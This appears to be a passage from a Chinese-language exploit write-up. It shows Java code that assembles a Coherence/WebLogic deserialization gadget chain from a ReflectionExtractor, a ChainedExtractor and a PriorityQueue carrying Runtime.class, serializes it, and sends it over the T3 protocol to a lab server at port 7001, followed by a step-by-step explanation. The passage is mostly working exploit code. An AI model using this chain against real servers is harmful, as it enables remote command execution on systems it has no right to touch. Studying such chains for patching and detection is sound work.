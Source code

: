 ```java
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("toString", new Object[]{});
        ValueExtractor[] valueExtractors1 = new ValueExtractor[]{
                reflectionExtractor
        }; // 构造一个临时的参数，后面会利用反射替换掉

        ChainedExtractor chainedExtractor1 = new ChainedExtractor(valueExtractors1);

        PriorityQueue queue = new PriorityQueue(2, new ExtractorComparator<>(chainedExtractor1));
        queue.add("1");
        queue.add("1"); // 这里传入的参数可以随意
        
        Class<?> clazz = ChainedExtractor.class.getSuperclass();
        Field m_aExtractor = clazz.getDeclaredField("m_aExtractor");
        m_aExtractor.setAccessible(true);
        m_aExtractor.set(chainedExtractor1, valueExtractors); // 利用反射将构造的调用链传入

        Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
        queueArray[0] = Runtime.class; // Runtime.class作为参数传入ReflectionExtractor的extract()中,首先调用Runtime.class.getMethod()
        queueArray[1] = "1";

        // 序列化
        byte[] payload = Serializables.serialize(queue);

        // 使用T3协议发送序列化的数据，目标机器IP为192.168.57.129
        T3ProtocolOperation.send("192.168.57.129", "7001", payload);

    }
```

具体分为如下几个步骤：

1. 构造的调用链，创建`PriorityQueue`对象；
2. 创建`ChainedExtractor`对象，将构造的调用链传入其中作为参数；
3. 将`Runtime.class` 传入`PriorityQueue`中，并序列化队列；
4. 最后利用`T3`协议发送到服务器端。

​	